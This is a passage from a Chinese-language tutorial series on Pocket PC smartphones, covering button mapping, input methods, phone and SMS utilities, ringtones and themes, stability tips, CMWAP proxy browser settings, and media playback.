有些PPC手机有音量调节键，但是却没有滚动键（比如ET560），这时我们可以用专门的程序把音量键改为滚动键，另外我们利用Software Action Control也能够把录音键变成Jog-Dial按钮。启动该程序后，轻按一下录音键表示向下翻，长按录音键表示向上翻，这样在看电子书、上网时就方便多了。

#### 三、其他按键使用技巧

SmartPhone没有触摸屏，按键的使用就显得更加重要了，“右键总管”是一款很不错的软件，能将SmartPhone桌面上的右键扩展为高效的多级菜单，和系统融为一体，无缝整合，能极大提高工作效率，方便你的操作。

PPC智能手机“通话”和“挂断”按键的快捷用法：在通话过程中，长按绿色通话键可以开启免提功能；在GPRS连接状态下，长按红色挂断键可以强制断开GPRS；在短信列表状态，按一次绿色通话键可以把给你发送短信的号码发送到拨号界面，再按一次绿色通话键直接拨出该号码。

#### 四、设置按键功能的一般原则

有些朋友对如何设置PPC上几个快捷按键的功能不是很了解，往往保持其默认设置，但这并非就是很好的方案。根据经验，这里就PPC的按键应用给出几种常用方案：

一是在机器支持的前提下设置任务管理方案：映射“关闭当前程序”、“全部关闭”和“切换程序”，这样可以不用安装任何任务管理程序，实现真正的“零资源占用”。如果机器不支持，可安装相关软件后再映射，会让你使用时感觉十分方便。

二是文本编辑及文件管理方案：映射“复制”、“粘贴”和“剪切”，对于所有文本编辑软件和资源管理器都有效。

三是电源管理方案：映射“重新启动”、“关闭机器”和“关闭屏幕”，虽然部分播放软件有“关闭屏幕”的按键选项，还是建议大家将其映射出来，这样对于所有软件都是适用的。

常见的按键映射如图 7 所示。

总之我们完全可以通过巧用按钮设置，并配合适当的软件来提高PPC的使用效率，并延长诸如电源开关、RESET之类按钮的寿命。


#### 五、PPC手机中文输入法介绍

这里给大家推荐几款比较好用的输入法：

- 五笔输入：海云蓝天的五笔输入法。实现在PPC手机上输入五笔，是习惯使用五笔输入朋友的好选择。
- 联想拼音输入法：改变了中文PPC中内置的很难记的拼音输入，仿PC键盘的排列及输入原则，并带联想词组功能。
- 梅花拼音输入法：基于独特的梅花PDA虚拟键盘的拼音输入法，该输入法结合了屏幕手写和点击键盘的一些优点，是一种能使触摸屏输入得到革命性改善的新颖输入法。
- 得意中文整句输入法：实现常用语句的快速输入功能。键盘输入法包含中国内地及港台地区常用的七种汉字编码，简体、繁体、拼音、笔顺、微软五笔、英译中、广东拼音、仓颉、速成、注音、单字、词组、句子等等，全部可一起使用，无须转换输入法。该输入法使用了新发明的“即按即上”技术，键盘上的编码键同时也是选字选词键，无须按结束键就可以直接按键选择字词。

#### 六、提高手写输入的识别率

PPC系统具有笔触模拟功能，通过它，你可以最大限度地找到平时书写时的感觉。同时还可以设置0秒等待，也就是说一旦当你的笔触离开屏幕，系统就会立刻开始识别了，所以在实际书写过程中可以保持相当连贯的书写速度。以下是针对个人习惯的手写设置参数，供大家参考：

- 抬笔等待时间：最短.0秒等待；
- 半角字符转为全角字符：不激活；
- 写字发声：不激活；
- 笔迹类型：钢笔；
- 笔迹粗细：细；
- 笔迹颜色：单色；
- 变化速度：60。

当然最关键还在于你要努力适应这种“一屏一字”的书写习惯，而且还得在书写过程中保持一定的速度，另外还有一个方法可以尝试，就是将系统切换到横屏模式下，横屏下可实现“一屏两字”，更符合现代人的书写习惯。

### 第五讲 电话和短信功能增强

PPC智能手机最主要的用途还是用来打电话和发短信，因此这一讲也是本讲座的重点之一。前面谈到，与普通手机相比，PPC智能手机最大的不同在于可以自己增强系统功能。因此尽管PPC智能手机本身的电话和短信功能比较简单，但我们仍可以通过安装第三方软件进行加强。

#### 一、电话功能增强

这里给大家介绍几款常用的电话功能增强软件。

##### 1. 泡泡电话助手

是专门为PocketPC Phone移动设备设计的程序。它可以直接显示来电号码所属的地区名称以及该地区的电话区号，对陌生的手机号码打来的电话可以迅速确定其所属城市。软件包含联通公司130到133，移动公司134到139号段共计92969门，固定电话区号数据343个，还可以通过手工输入电话号码来查询其所属地区。支持未接来电号码地区显示、来电防火墙、拒接来电等强大功能。系统进程加载，不占用进程资源，不用担心不小心被关闭，超快的查询速度，即时输入即时显示绑定手机硬件按钮，更加快捷的打开程序，清爽的来电显示方式，不与来电大头贴之类的软件产生冲突。

##### 2. 来电精灵pro

来电精灵专业版，是来电精灵的高级版本，在来电精灵原有功能的基础上增加分组/随机铃声/个性振动、来电防火墙（如图8所示）、短信拒接来电、个性皮肤/大头贴等新功能，分组任你设，规则任你定。拥有来电精灵Pro，立刻让你的手机成为真正的商务手机。


该软件支持手机号码归属地查询，支持区号查询、邮编查询、身份证查询，支持来电显示归属地，支持来电皮肤设置，支持分组铃声、随机铃声、个性振动，支持来电防火墙、来电大头贴、短信拒收来电、通话提醒和接通提醒功能（可以设置、多少秒提醒一次，注意：该提醒是用振动提醒的），支持热键设置。

##### 3. Phone Today Radio Scheduler

这是一款功能简洁实用的定时软件，可以定时关闭和开启移动电话功能和蓝牙功能，这样在晚上就可以安心睡觉而不用担心辐射污染了，也没人可以打电话吵你，当然早上也不用担心忘记开机，如图9所示。开关机的设置功能十分强大，可以按星期、时间设定最多设置十个不同的开关计划。比如你可以设置为周末全天关机。


##### 4. 第三方通信记录软件

- (1) Phone Dash Minute Track
该软件提供了多样化的通话记录查询和统计功能，如果设置得当，还能进行费用计算和控制，推荐 PPC 手机用户安装。
- (2) GPRS 流量监视软件
PPC 智能手机有一个很重大的功能缺陷就是不能记录统计上网时的 GPRS 流量，安装这类软件后可有效解决此问题，如图 10 和图 11 所示。


##### 5. 拨号增强软件

PPC 本身拨号功能比较弱，不过我们可以安装其他拨号增强软件，方便单手操作（如图 12 所示）。利用 IP 前缀拨号 MypreFixDail 可以在联系人的工具菜单内出现 MypreFixDail 项，能为号码快速度加上 IP 前缀号码。


##### 6. 网络通话软件

推荐著名的 Skype For PPC：无敌的网络语音通话软件，优质的语音通话质量，几乎免费的通话费用，如果你的 PPC 智能手机内置 WIFI 功能，强烈建议你安装。

#### 二、短信功能增强

短信功能在 PPC 手机中，被纳入邮件 / 短信程序进行统一处理，发送时选择电子邮件或 SMS 协议，PPC 手机会自动进行后续处理。

##### 1. 短信大师

短信大师是一款集短信接收、管理、查找、加密、过滤(短信防火墙)及自动回复 / 转发于一身的超级短信管理软件，如图 13 所示。内置了短信接收和发送功能，支持发送闪电短信；支持成组发送；超强短信过滤，支持设置多种过滤条件；支持快速设置；支持黑名单、联系人、陌生人默认设置；内置短信防火墙；播放特定声音；短信大头贴；支持快速设置，支持短信自动回复、转发、定时发送；支持短信导入；高效的树形管理及分类；短信可保存至单个文件中，可以新建多个文件。


##### 2. 虹软彩信通

早期版本的 PPC 智能手机并不支持彩信收发，我们可以安装“虹软彩信通”这款软件来收发多媒体信息。其特性包括：多媒体消息协议基于 WAP 的 MM1；执行 WAP 1.2 协议栈；集成了 MMS 的 PUSH 通知技术；彩信管理箱，具有收件箱、发件箱、草稿箱、已发邮件箱等用户习惯的存储结构；内置多种模板可供选择，开放的模板格式；强大的媒体管理功能，对图像、声音、文字和动画分类存储；彩信编写器软件设计完全遵守 MMS 协议规范，可和各厂家的 MMSC（多媒体彩信中心）以及第三方 MMS 客户端软件协同工作。

### 第六讲 铃声和图片应用技巧

现在手机上很热门的应用就是更换铃声和待机图片了。虽然目前和铉铃声及 MP3 铃声在各种档次的手机上都得到普及，但较早版本的 PPC 智能手机只支持 MIDI 格式和 WAV 格式，现在的 PPC 智能手机在铃声方面也可以支持 MP3 和 WMA 格式了。尽管在铃声种类上 PPC 智能手机并不比普通手机更有优势，但是我们可以使用相关软件增强手机对铃声的管理功能。

### 一、自制 WAV 铃声

很多 PPC 智能手机内置的铃声音量都偏小，在室外稍微有点吵闹就很难听到电话铃声。针对这一缺陷，我们可以自行将喜欢的音乐录制或转换成 WAV 格式，转换后稍作加工即可作为手机铃声，具体方法是：

在 PPC 里打开录音机，打开要用作铃声的 WAV 文件，选择“效果”菜单中的“提高音量”选项，一般得提高 3 次以上音量才够大。如果声音比较干，还可以选择“添加回音”来润色。当然如果有时间，你也可以把两段以上的声音文件通过“粘贴插入”、“粘贴混合”或“与文件混合”来制作其他效果，这些选项在“编辑”菜单里都可以找到。

铃声文件容量不宜过大，最好在 1M 以内。如果超过 1M，可通过降低比特率，或裁减尺寸来减少容量。最后把制作完的声音拷贝到智能手机的“\Windows\Rings”目录下就可以使用了。如果要节省主存空间的话，可以利用修改注册表的方法将铃声放到存储卡上，具体方法就是将注册表中的“HKEY_CURRENT_USER\ControlPanel\SoundCategories\Ring\Directory”项的值由“Windows\Rings\”改为“\存储卡\Rings\”，改好后，可以删除掉 Windows 目录下rings目录的铃声，从而节省了主内存空间。

#### 二、设定来电个性声音

现在大多数PPC智能手机都提供了“来电铃声和图片”管理软件，可现场直接录制声音和拍摄照片来作为铃声大头贴。这样，你既可以将第一次见面的某个朋友或客户的音容笑貌拍录下来，也可以记录某个特别的时刻，每当铃声响起，可以迅速识别来电者的身份，宛然置身当时的情境中。比如多普达PPC手机内置的Caller ID，就是一款不错的来电大头贴软件，并且支持图片分组等功能，如图14所示。


而联想PPC手机内置的“个性来电”是一款非常优秀的个性化电话簿软件。可以对单个联系人进行“来电大头贴”和“个性铃声”设置，“来电大头贴”既可使用ET560内部的图片（放置在“我的图片”文件夹内），也可在设置的同时进行即时拍摄。“个性铃声”则扩展了ET560的铃声功能，这里除可选择机身内部的铃声文件外，也可在设置时进行录音，用录音文件作为铃声。

另外，一款名叫Sunnysoft Plus的软件也可以给联系人类别和每个联系人设定个性来电铃声和图片。给类别设定个性铃声后，该类别的所有联系人都会使用所在类的铃声和图片。还可以在今日屏幕上显示和编辑来电记录；在今日屏幕上显示和编辑短信记录；收到短信时显示弹出窗口并显示来信人姓名。在最新的WM5手机中，联系人已经内置了“来电大头贴”的功能。

#### 三、“彩铃”、“彩话”应用

现在“彩铃”、“彩话”也是手机中很热门的应用，不过它们都需要移动网络的支持，因此在使用时需要付出一定费用。不过如果你使用智能手机的话，可以用软件来模拟“彩铃”和“彩话”。

“彩铃”的模拟软件其实就是在接通来电后先给对方播放一段你事先录制好的音乐或其他录音。而一款名为SounderCover的软件，就可以在通话过程中设定背景声音，这样也就实现了“彩话”功能，非常有意思。

##### 小技巧：巧用MP3文件作为PPC的闹铃

PPC自带的闹铃种类选择比较少，而且音量也较低。你可以使用下面的方法用MP3歌曲来作为PPC的闹铃：

首先设置好闹钟，然后打开WMP，开始播放mp3，当然要选择一首音量大的MP3来播放，关机。到了你设定闹钟的时间，PPC就会自动播放该mp3叫醒你了。为什么这么“神奇”呢？道理很简单，如果WMP正在播放mp3的时候关机，那么在下次开机的时候他会继续放下去，闹钟提醒会使机器自动开机，这样WMP就会继续播放关机前的mp3，当然也就相当于用mp3音乐做闹钟了。不过要注意，此方法不是对每款机器都适用。

#### 四、设置PPC手机桌面外观

PPC 2002以后可以支持TSK格式的桌面，我们只需下载别人做好的TSK桌面文件，拷贝到PPC的“My Documents”或者“\Windows”文件夹下面。然后进入“设置”→“今日”选项，已经安装的桌面都在里面了，可以自由选择、删除。当然也可以选择“自定义桌面”，然后通过“浏览”的方法找到支持的图片格式，但是这样设置出来的桌面像蒙了一层玻璃，看不清，如图15所示。最好使用“图片”程序来设置，通过调整“透明度级别”来改善显示效果，级别为0的时候表示这个图片是原来的设置（对比度、亮度等都没有变），级别为100%图片完全不可见。


另外在“选项”中可以设置第三方的“今日”插件，如图16所示。点“上移”或“下移”可调整显示顺序。有些软件安装后通常在“程序”里面找不到快捷方式，就藏在这里。要卸载必须先在这里关闭才行。


一般PPC默认分辨率是240×320，所以将屏幕调到横屏或者VGA的时候，基于240×320分辨率制作出来的TSK桌面就不能用了。这里再谈谈如何制作特殊分辨率的TSK图片。

其实TSK就是被改了文件后缀的CAB自释放文件，将其后缀改为CAB后，我们就可用WinCE Cab Manager这款软件打开，其中包含两个文件：tdywater就是指今日的主背景，stwater就指开始菜单的背景。

将这两个文件导出，然后用图片处理工具将两个文件的尺寸分别改为640×480（tdywater）和153×480（stwater）。这里的尺寸我们是以640×480为例的，横屏的话是320×240（tdywater）和153×240（stwater），以此类推，就不难制作出任何分辨率下的TSK，然后对这两张已制定尺寸的图片做加工处理，最后用WinCE Cab Manager将这两个文件重新导入即可。当然目前新版的ThemeManager、ThemeGenerator等主流TSK工具，已经支持横屏及VGA版的TSK制作了，使用起来会更加方便。

##### 小技巧：个性化PPC上的文件夹图标

PPC上也是能个性化文件夹的，具体可以通过Icon.lnk文件来实现。Icon.lnk实际上是个文本文件，你只要将写好代码的文件后缀由“.txt”改为“.lnk”即可。我们这里就temp文件夹来作简要说明。首先用记事本打开temp目录下的Icon.lnk，你会发现含有以下字符“\Windows\MShell32.dll,-9”“\Windows\MShell32.dll”的就是图标库文件的地址，“-9”就是指图标库中的第9个图标。那么，如果图标库是

### 第七讲 保持PPC智能手机稳定

不少朋友对智能手机心存顾虑，除了使用比较复杂外，还有一个重要原因就是智能手机尤其是PPC智能手机的稳定性通常比不上普通手机。这个问题其实很正常，前面提到，智能手机我们要当作电脑来用，既然是“电脑”，而且是安装Windows系统的“电脑”，那么死机似乎就是很难避免的。不过我们可不能“破罐子破摔”，其实只要合理使用，PPC智能手机的稳定性并没有我们想像的那么差。

##### 小知识：为何PPC智能手机较容易死机

这是不少PPC手机初级玩家经常问的一个问题。PPC是支持多任务的，当同时打开过多程序时，由于系统资源耗费太大，就会导致系统运行缓慢，甚至死机。大家知道PC上程序右上角的“×”按钮一般都是关闭程序的意思，但是在PPC上的程序这个“×”按钮很多情况下则是最小化的意思。这是PPC设计上一个饱受争议的地方，很多初学者往往搞不清楚这点，从而使系统运行出现问题。

#### 一、合理安装软件

理论上说，只要没有硬件问题，如果PPC智能手机不安装任何第三方软件，保持出厂时的状态，那么其稳定性还是很好的。但是PPC智能手机软件资源非常丰富，有着成百上千的应用软件可供下载、安装，怎么可能不安装其他软件呢？如果我们不加选择地胡乱安装，那么很快就会让手机变得非常不稳定。因此在软件安装上我们要注意下面几点：

1. 只安装必需的软件，并尽量安装在存储卡上，以保证系统主内存有足够的剩余空间。
2. 最好使用“绿色软件”。所谓绿色软件即无需安装的软件，我们只需解压后放到存储卡的某个目录下就能使用。这样就不会修改系统注册表，以及向系统目录下放置垃圾文件。
3. 与系统关系比较密切的软件不要随便装，比如：TODAYPLUS桌面快捷软件和蓝牙管理器可能冲突，造成蓝牙无法连接；而VoiceCommander和彩信软件冲突，必须通过修改注册表才能解决。

选择PPC软件的原则，总结起来有如下几点：绿色、小巧、实用、普及。PPC上安装软件尤其要注意“绿色”理念，除了一些必须通过安装来使用的程序外，请尽量使用能拷贝到储存卡后直接运行的“绿色软件”。这样的话可以节约出更多的内存空间来运行程序，从而使系统运行更流畅。如果使用CAB文件来安装，安装时必须将其拷贝到PPC的内存或存储卡上，再在资源管理器中双击即可自动安装，但这样只能安装到主内存中。这时我们可以使用cabinstl这个软件来指定安装路径，将其安装在存储卡上，从而节省内存空间。

#### 二、合理使用PPC手机

除了在软件安装上未加注意外，不合理使用PPC手机也会造成系统不稳定。比如同时开启太多的应用程序会影响GSM模块正常工作，造成无法拨打或接听电话。这时只需软启动一下机器即可恢复正常。还可以经常用MemMaid、Pocket Mechanic、SKTools等软件来优化系统，清除系统垃圾。同时要检查Windows目录下的启动项中是否有太多的自启动程序，将不需要的清除。

我们在PPC手机上装好必备软件后，比如电话插件、音量键映射、农历插件、百宝箱（JAVA仿真器）、键盘输入、联想拼音输入、慧能短信、低电量解除、PIEPLUS独立等，其他与电话有关的第三方软件不要装，容易导致系统冲突及出现异常。然后使用测试一段时间，没问题的话，接着就可以做一个全系统备份（类似台式机上的GHOST，建议用Sprite Backup这款软件备份），以后待系统出现问题，通过冷启动后恢复即可。总之，保持系统内存空间足够大，和尽量使用“绿色软件”是保证系统稳定运行的两个关键。

#### 三、优化PPC的设置参数

由于PPC具有封闭性，所以我们不太可能像PC一样从硬件角度上去优化它，但可以通过合理的设置，尽量加以优化，下面给出一些具体的设置参数，供大家参考：

不使用自定义壁纸，桌面上只保留最常用的今日插件，取消闲置屏幕，取消所有事件声音，如果你的设备是PPC 2003的话，请在“性能设定”中选择节电模式，“灯光”设置选择节能。合理设置“电源管理”选项，如图17所示。另外IE使用平滑字体并增加字体缓存，为原来数值的两倍，取消菜单动画。要注意后几项设置需通过修改注册表或第三方软件实现。通过上面设置有利于延长电池使用时间并保证系统稳定。


### 第八讲 CMWAP节点上网技巧详解

PPC智能相较其他类型的手机一个大优势就是上网方便，其内置的PIE浏览器可以正常浏览大多数普通网站。不过通过GPRS上网的费用目前还比较高昂，好在现在可申请“WAP套餐”的手机卡越来越多了，在这个特殊的GPRS包月套餐中，通过CMWAP节点产生的GPRS流量包月计费，每月只需10~20元，很便宜。但使用CMWAP节点，通常只能浏览WAP网站，其价值不免大打折扣。其实我们可以使用一些特殊手段，突破ＷＡＰ包月套餐限制，实现浏览普通网页、收发邮件、聊天等应用。希望大家能从中有所收益。

#### 一、浏览网页

目前ＰＰＣ智能手机平台上的上网浏览器大概有如下几种：Pocket IE、Opera、NETFRONT、Ucweb (java)等。这些软件都能通过CMWAP浏览普通网页。下面就谈谈具体的实现方法：

##### 1. 使用内置PIE

因为已经在系统内集成，所以PIE启动很快，因此很稳定。要通过CMWAP浏览普通网页很简单，只需直接在连接设置中设置代理IP为“10.0.0.172:80”即可。要注意上WAP网的时候，网址输入需以“WSP://”开头，上WWW网的时候，和PC上的输入格式一样。另外建议大家最好安装PIE插件PIEPlus，增强PIE功能，比如支持同时打开多个浏览窗口等。使用PIE浏览网页的效果如图18所示。


##### 2. 使用Opera 8.5 for PPC

Opera8.5可谓目前PPC智能手机上功能最为强大的浏览器了，全面支持框架、前进、后退，并支持全屏，拥有128-bit密钥，可以上网进行查询话费详单等复杂的https操作。但在Opera8.5中要通过CMWAP代理上网，稍有些麻烦，需用字处理软件修改“\application data\opera”目录下的opera.ini文件，加上如下内容，才能通过CMWAP上网：

```
[Proxy]
Use Automatic Proxy Configuration=0
HTTP server=10.0.0.172:80
HTTPS server=10.0.0.172:80
FTP server=10.0.0.172:80
Gopher server=10.0.0.172:80
Enable HTTP 1.1 for proxy=0
```

##### 3. 使用NETFRONT

和Opera类似，NET FRONT也是一款功能相当强大的第三方PPC浏览器软件，其功能和浏览效果与台式机IE很接近。在最新版本中，还支持多种分辨率的虚拟屏幕模式，获得接近台式机的浏览效果。要使NETFRONT通过CMWAP上网，很简单，直接在其连接设置中设置代理IP为10.0.0.172:80即可，如图19所示。

##### 4. 使用UCWEB

UCWEB是一款国产的专门用于手机上网的优秀软件，基于JAVA平台，PPC智能手机通过加装java模拟器可以很流畅地运行UCWEB。UCWEB可以浏览带有帧的复杂网页，支持边下载网页边浏览，浏览复杂网页的速度不亚于浏览普通网页。使用UCWEB能在大多数论坛顺利发帖子，非常便捷。在UCWEB中，只需在系统设置中将联网方式设置为“移动梦网方式”即可实现通过CMWAP节点代理浏览普通网页，如图20所示。


##### 5. 使用网页代理

最后给大家推荐网站www.skweezer.net，这是个专门给智能手机和ppc手机用户设计的网站，用ppc进入该网站后，在空白处填入你想去的网站地址，点skweezer按钮，这样就能通过skweezer中转进入你想浏览的网站，skweezer会根据设备的屏幕大小和分辨率自动重新排版网页的显示，让网页完全适合你的设备屏幕。缺点是该网站在国内常常无法连接。

#### 二、在线聊天

台式机上最常用的在线聊天软件QQ和MSN在PPC上都有相应的版本。但是直接在系统中运行的QQ和MSN目前都还不支持通过CMWAP聊天，好在我们可以用其他软件实现。

##### 1. JAVA QQ

首先安装“百宝箱”JAVA模拟器，然后安装JAVA版本的QQ，即可通过CMWAP节点聊天。这款JAVA QQ的功能并不弱，可以全屏显示，并记录聊天记录。最重要的是，JAVA QQ支持通过CMWAP联网聊天。JAVA QQ的界面如图21所示。


##### 2. UCWEB

PPC操作系统自带的MSN使用很方便，但是不支持通过CMWAP连接，我们可以使用前面介绍的UCWEB，除了上网，这款软件还提供了对MSN的支持。感兴趣的朋友不妨去相关游戏网站看看。

##### 3. 邦邦通

除了上面介绍的软件，要通过CMWAP进行聊天，建议大家使用由免费WAP门户邦邦网开发的“邦邦通”。该软件可同时绑定QQ和MSN，实现手机与手机，手机与电脑互通的即时聊天软件。其最大优点是操作方便，无论是多窗口用户分组、数字快捷键设置，还是MIDI提示音、自动回复功能等，都相当实用和方便。如果不想安装JAVA模拟器，还可以使用邦邦通的WAP版。实现WAP页面与Java客户端的互通。无论从功能还是界面操作上看，邦邦通都算得上是相当优秀的CMWAP聊天软件。强烈建议喜欢聊天的CMWAP包月用户安装使用。注意在使用前需要到邦邦网上申请一个邦邦号。除了邦邦通，一款名为“SOLE MESSEGER”的软件也具备类似功能。

#### 三、收发邮件

使用PPC上自带的收件箱并不能通过CMWAP收发邮件，建议大家安装并使用UCMAIL这款软件。UCMAIL是基于Java的移动邮件客户端，UCMAIL支持常用邮箱（包括HotMail和YahooMail）的账户智能配置。针对不同手机的差异，用户还可个性化地进行邮件收发、存储、浏览、联网等设置。用户也可以随时将信件通过彩信形式转发到指定的手机中。总之，这是一款很不错的手机收发邮件的程序，强烈建议CMWAP用户安装使用。


除了UCMAIL，还有一款由业余高手自编的YuleMail邮件程序，如图22所示。只要先运行这个程序，就可以使用任意的邮件客户端来收发邮件。具体使用方法：运行后输入邮件服务器域名和端口，点击“开始代理”。同时注意在邮件客户端中将邮件服务器全改为localhost，其他设置不变，然后就可以随心所欲地收发邮件了。如果你的邮件客户端支持附件，你还可以收发带有附件的邮件！

#### 四、其他应用

通过上面的讲解，我们知道在PPC上使用CMWAP我们可以实现上网聊天、网页浏览、邮件收发等大多数实际应用。其实除了前面提到的三大应用外，还有其他应用可以实现。

##### 1. 手机网游

现在手机网游已经开始逐步风靡了，从最初的《摩邦》到现在的《三界》、《战国》、《无限乾坤》、《大话三国3》、《神役》、《封魔幻想》等网络RPG游戏百花齐放，还有“TeveQ”、“移动玩家”等类似联众的联网棋牌游戏（联众游戏目前不支持CMWAP），这里就不一一列举了。这些游戏大多通过简单设置，就支持通过CMWAP节点连接，感兴趣的用户可以尝试。

##### 2. 在线资讯


“掌讯通”是比较成熟的在线资讯软件，而且是完全免费的，新版本很好地支持CMWAP接入，在选项中设置相应的接入点即可。“掌讯通”的天气预报功能很实用，图片结合文字的天气预报以及350个城市的邮政编码、区号信息查询，并可以通过升级，不断支持更多的城市或地区，如图23所示。

##### 3. 网络影视

在几年前通过CMWAP可以用PPC系统自带的媒体播放器在手机上收看网上的影视节目，可惜移动已经封掉了这一功能。目前通过CMWAP在PPC手机上收看网上的影视节目从技术上说仍可以实现的，也有PVPlayer3.3等相应的软件可以支持，但是由于速度太慢，且节目源有限，基本上没有太大的实用价值，这里就不多说了。

##### 小贴士：PPC上如何运行JAVA程序

本讲中提到的不少程序是基于JAVA的，出于竞争需要，微软在Pocket PC操作系统中并不直接支持SUN公司大力推广的JAVA技术。因此要在PPC智能手机上运行JAVA程序，需使用第三方的JAVA模拟器。DeltaMIDP 2.0就是常见的JAVA模拟器。包含JavaInst.exe、Dmidp2.exe和QCommCtrl.dll三个文件。下载后的K-JAVA程序必须同时有jar文件和jad文件，两个文件的主文件名必须相同，将两个文件放置到同一目录。运行JavaInst，在“应用名称”处填入程序名称，然后在“JAR文件”处填写JAR文件所在路径，最后点击“安装”后，便完成K-JAVA程序的安装。然后再运行dmidp2，就可以从屏幕上看见刚才安装的那个程序的名字了，以后就可以直接运行了。

除了用DeltaMIDP，在PPC上运行JAVA程序更简单的方法就是安装“百宝箱”这款中国移动定制的JAVA模拟器，安装好“百宝箱”后，可以直接从网上下载安装JAVA程序（在PIE中输入JAVA程序的链接地址即可），也可以将JAVA程序如ucweb.jar、ucmail.jad拷贝到ppc根目录；在根目录中点击运行该程序，将自动进入“百宝箱”进行安装。

### 第九讲 多媒体应用技巧

PPC手机的一大优势就是多媒体性能相当好。可以比较方便地播放各种格式的媒体文件，如MP3、WMA、QuickTime、REAL、FLASH等，从而让我们获得全方位的影音体验。下面就来谈谈PPC手机在多媒体方面的应用技巧。

#### 一、PPC手机上看电视

在PPC手机上收看电视是很多朋友梦想获得的功能，通过一些网络流媒体播放软件，我们就可以实现在线收看电视节目。具体操作步骤将在下一讲详细介绍。

##### 1. 通过移动网络收看

用手机看电视，这本来属于3G时代的服务，如今却提前粉墨登场。不少地方都陆续开通“手机电视”服务。用户使用特定的几款高端手机，再安装一个专门的小软件，就可以在线收看电视直播了。

如果你的手机通过CMNET上网，那么可打开系统自带的WMplayer播放器选“菜单”→“打开url”，在地址栏填写mms://winmedia.cctv.com.cn/live1，点击“播放”按钮。即可开始拨号-连接-缓冲-播放。CCTV有几个频道（比如cctv国际频道mms://winmedia.cctv.com.cn/live）为手机网络专门优化过，在手机上看稳定在34kbps，不需要缓冲，声音比较流畅，和普通电视差不多，如图24所示。


如果你的手机使用CMWAP节点上网，那么需要用到GGTV这个在线流媒体播放器。大家可以通过PPC手机直接上网到“wap.3g.net.cn”下载。安装好后，就可以收看包括凤凰卫视在内的多个电视频道了，不过延时现象非常严重，如图25所示。另外用类似的方法我们也可用通过网络收听广播节目，让自己的PPC手机也加上流行的收音机功能。


目前要收看网络电视，带宽是关键。用GPRS还无法获得较好的收看效果，如果你的PPC手机支持2.5G的CDMA 1X网络或2.75G的EDGE，或者能通过WIFI接入宽带网，那么效果会好不少。

##### 2. 收看传统模拟电视

除了收看网络电视外，如果你的PPC硬件支持的话，也可以收看传统模拟电视。现在有个别PPC手机内置了电视功能接收功能，比如技嘉的“爱因斯坦”PPC手机就内置电视接收器，可以收看无线模拟电视。

另外有些PPC手机本身有CF插槽，或者能通过背夹扩展出CF接口（如多普达696i），然后你再购买一款为Pocket PC掌上电脑设计的CF电视卡——EOPS P01，它能够让PPC用户随时随地收看电视节目正在播放的电视节目。

##### 3. 收看移动数字电视(DVB)

DVB-H（Digital Video Broadcasting - Handheld），手持式接收器之数字电视广播规范。是DVB组织为通过地面数字广播网络向便携或手持终端提供多媒体业务所制定的传输标准。该标准被认为是DVB-T标准的扩展应用，但是和DVB-T相比，DVB-H终端具有更低的功耗，移动接收和更为优越的抗干扰性能，因此该标准适用于移动电话、掌上计算机等小型便携装置通过地面数字电视广播网络来接收信号。简而言之，DVB-H标准就是架构在DVB-T传输系统上，通过增加一定的附加功能，和改进技术使手机等便携装置能够稳定地接收广播电视信号。

DVB应该是今后手机收看电视的主流发展趋势，收看效果好，不占用手机网络带宽（但可以与手机网络结合实现视频点播等增值功能），在韩、日等国家已经开始普及，不过国内要用手机看上移动数字还有待时日。

#### 二、PPC上各种媒体文件的播放

PPC手机支持几乎所有格式的媒体文件播放，关键是使用合适的软件。首先系统自带的WMP 9/10还是挺好用的（比如支持硬按键的定义），对WMV和WMA、MP3以及ASF的支持很好，不过支持的格式还是偏少，甚至不支持最常见的MPG格式。建议大家用BetaPlayer（现已改名为TCPMP）作为补充，这个多媒体播放程序非常棒，包括MPEG4和QuickTime在内的常见视频格式都能播放（除了RM），速度很好，而且带有测试功能，更为可贵的这是一款绿色、免费的软件，如图26所示。


另外，通过RealOnePlayer PPC可以在PPC上直接观看Real文件，且支持在线收看，支持Realvideo9编码方式，但是只能支持低码率（100kbs以下）的RM文件播放，高码率的文件无法正常播放（只有声音，没图像），也就是说目前PPC手机上还无法完美地播放RM文件。

其他的播放软件还有Pockettventerprise：播放mpg文件最好的软件，非常流畅，企业版对PPC进行了更多的优化，效果明显要好于PocketTV Enterprise Edition。另外，PictPocket Cinema 和 PQView等对QT的MOV文件提供了良好支持。

PPC上听MP3是很轻松的事，很多软件都支持MP3播放，不过这里给大家推荐一款小软件“魔法小歌词”，如图27所示。它可以在Pocket PC上播放Mp3、Rmp，Mp2，Mpa，Ogg，Wav，Midi等几乎所有常见音频格式，而且其最大特点是能同步显示歌词，你需要做的只是将歌词文件放在音乐文件的同一目录下，或是让她自动从网上支持下载歌词。


PPC上可播放Flash动画的软件不多，曾有一款不错的免费阅读软件“亿书博览”支持Flash动画的播放，但功能比较弱，无法全屏及横屏显示。而且出产该软件的公司已经倒闭，也无法指望其升级了。另一个方案就是使用功能强大的Bryht Flash Player 2.0，该软件支持全屏及横屏显示，表现相当出色。但这款软件必须配合Macromedia Flash Activex 6插件。安装此插件后，PPC上的IE也能显示网页中的FLASH动画了。而且所显示的FLASH都保存在内存中，可以拷贝出来并保存。

##### 小技巧：PPC手机巧省电

喜欢用PPC手机作为随身听听音乐的朋友不少，在听音乐时屏幕就没有始终开启的必要了。如果我们能设法在听音乐时关闭屏幕，那么可以大大节省PPC手机的耗电，延长其使用时间。有些第三方的MP3播放软件内置了关屏功能，其实PPC自带的Media Player也可以方便地关屏，只是不少朋友没有发现这一功能而已，具体方法如下：
运行Media Player，选择“工具”→“设置”→“按钮”，在设置按钮的界面中，从“预览”中选择“屏幕切换”，然后任意按一个按键设置成关屏键即可，以后在播放音乐时，只需按下该键，屏幕就能关闭。而在关屏状态下，按这个按键可以开屏。在这里不仅可以开关屏，还可以设置控制播放的按键，这样在关屏状态下就可以控制前进、后退、音量大小等，你的PPC就真正成为一个使用方便的MP3播放器了，怎么样？是不是很爽呢？

### 第十讲 用电脑丰富PPC手机功能

既然PPC智能手机可以当成“电脑”来用，而要充分发挥PPC手机的丰富功能，则必须要让手机与电脑“联姻”。与普通手机相比，PPC手机对电脑的依存度更大。

#### 一、电脑手机联姻的用途

几乎所有数码设备要正常使用都不能离开电脑，数码相机拍摄的数码照片要下载到电脑处理；数码摄像机拍摄的影片要用电脑处理后刻录成DVD光碟；MP3播放机要通过电脑下载上传音乐文件等等。PPC手机当然也不例外，与电脑联姻后，可以充分发挥手机的功能。

##### 1. 增强手机娱乐功能

